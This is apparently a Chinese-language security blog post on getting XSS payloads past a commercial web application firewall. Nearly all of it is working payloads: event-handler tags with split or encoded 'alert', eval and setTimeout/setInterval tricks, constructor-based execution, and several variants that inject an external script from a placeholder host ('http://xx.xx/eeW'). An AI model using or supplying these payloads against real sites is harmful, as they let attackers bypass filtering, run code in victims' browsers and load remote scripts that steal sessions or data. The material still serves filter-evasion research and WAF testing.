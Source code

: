 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```html
//一家人就是要整整齐齐
<details open ontoggle=top['al'%2B'ert'](1) >
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
<details open ontoggle=window['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `window`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 其他补充
除了拆分构造，我们必须要了解还有编码，这个确实是老生常谈的话题，先看个例子吧

将e字母url编码，成功弹窗也绕过waf。
`<details open ontoggle=top['al%65rt'](1) >`
![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xte6v6ioj30uj07bwf4.jpg)

其他编码
```html
JS8编码：
<details open ontoggle=top['al\145rt'](1) >
<details open ontoggle=top['\141\154\145\162\164'](1) >
JS16编码：
<details open ontoggle=top['al\x65rt'](1) >
其他
<details open ontoggle=top[/al/.source%2B/ert/.source](1) >
```
### parseInt()与toString()
- - -
**parseInt()**

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw3xjyifj30nj0b1dga.jpg)

例子: `alert`字符串用`parseInt函数`，以基数为30转化后为`8680439`


![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw6xbo82j30ff05tq2z.jpg)

**toString()**


![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwe1vapzj30g809z0sx.jpg)

例子: `toString函数`将返回的数字`8680439`,以基数为30还原

![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwgo4zb3j30fl083wen.jpg)

这样你就能理解下面这个例子了。
```html
<details open ontoggle=top[8680439..toString(30)](1); >
<details open ontoggle=top[11189117..toString(32)](1); >
```
![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwsdzqctj30uj0930tj.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```html
<details open ontoggle=top[a='al',b='ev',b%2ba](atob('YWxlcnQoMSk='))>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。 
```html
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```

## eval函数的补充
- - -
#### setTimeout

![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ycyd6jedj30no0adt90.jpg)

waf拦截
```html
<svg/onload=setTimeout`alert(1)`>
```
![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy2v7lvnj30uj05d74p.jpg)

编码下，就绕过了。
```html
<svg/onload=setTimeout`alert\u0028233\u0029`>
```
![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy76ggesj30uj0813z5.jpg)

#### setInterval

与`setInterval`不同，对于`setTimeout()`只执行code一次。

![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yczzsa24j30no0exwf8.jpg)

`<svg/onload=setInterval('al'%2b'ert(1)')>`

![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd573lavj30uj09qwf9.jpg)

绕过waf，引用外部js。
```html
<svg/onload=setInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
```
![22](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd9dqh46j30uj0e4q4j.jpg)

#### 其他
```html
拆分与编码
<svg/onload=\u0073etInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('sc\162ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(\u0061ppendChild(\u0063reateElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
 
结合函数：
<iframe onload=s=createElement('script');body.appendChild(s);s.src=['http','://','xx.xx','/eeW'].join('') >
<svg/onload=s=createElement('script');body.appendChild(s);s.src=['http']%2B['://']%2B['xx.xx']%2B['/eeW'].join('') >
<svg/onload=s=\u0063reateElement('scr'%2b'ipt');\u0062ody.\u0061ppendChild(s);s.src='http://x'.concat('x.xx/','eeW'); >
```

### 扩展
- - -

关于运用基于DOM的方法创建和插入节点把外部JS文件注入到网页，这种方法在<<XSS跨站脚本gj剖析与防御>>有介绍过。我这里简单演示下，如果你了解或者不感兴趣可以跳过这段。

首先用createElement方法创建一个script标签。

![23](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydpwjmafj30fh07jt8s.jpg)

接下来给<script>的src属性设置成外部url
 
![24](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydrl28mhj30fe0b1jrn.jpg)

可以看到<script>标签以及src属性已经被创建出来，但是并不在页面上输出啊。
 
![25](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf3ujkccj30fe0a174d.jpg)

我们就要用到appendChild()方法将变量s插入页面。

![26](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf6k40vgj30fg08gt93.jpg)

再来看看页面上

![27](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf7nce1dj30fe0620ss.jpg)

### constructor属性
- - -

![28](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk1fdzqmj30fh07idfu.jpg)

少年!Post到什么了没有。

![29](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk4ibtegj30m3047weh.jpg)

又是拆分。。注意后面的`()`

```html
<svg/onload=Set.constructor('al'%2b'ert(1)')()>
```
![30](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk7bt75gj30uj09a3z9.jpg)

反引号我看行。。注意后面2个反引号。

```html
<svg/onload=Set.constructor`al\x65rt\x28/xss/\x29```>
```
![31](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykdta6tvj30uj0943z9.jpg)

又来引用外部url。编码拆分以及结合函数，请参考上章= =，不然我怕有人说我水。。。

![33](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykjq4xx5j30k00ha3z9.jpg)

```html
<svg/onload=Set.constructor(appendChild(createElement('script')).src='http://xx.xx/eeW')()>
```
![32](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykhi14qsj30uj0b63zz.jpg)

### 补充(又是补充，你**就不能一次讲完嘛!写个文章还划水!)
- - -

咳咳，该补充的还是要补充的，除了 Set 对象还有嘛？当然有的。

![33](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykvh8ot8j30ak08rwhp.jpg)

看些例子，都可以弹窗。

![34](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yl20qvebj30sf09rgm2.jpg)

来个简单拆分。

![35](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yl50p5ykj30uj09at9g.jpg)
 
总结起来就是`Set.constructor` `Map.constructor` `clear.constructor` `Array.constructor` `WeakSet.constructor` (注意区分大小写的)

```
<svg/onload=Set.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=Map.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=clear.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=Array.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=WeakSet.constructor`al\x65rt\x28/xss/\x29```>
```

引用外部...

![36](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ylf0t8nsj306o06ojrl.jpg)

感兴趣的同学可以关注：[Github项目](https://github.com/S9MF/Xss_Test/blob/master/waf/YunSuo.md)

## 参考致谢

[vulnerability-lab.com](http://www.vulnerability-lab.com/resources/documents/531.txt)

[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

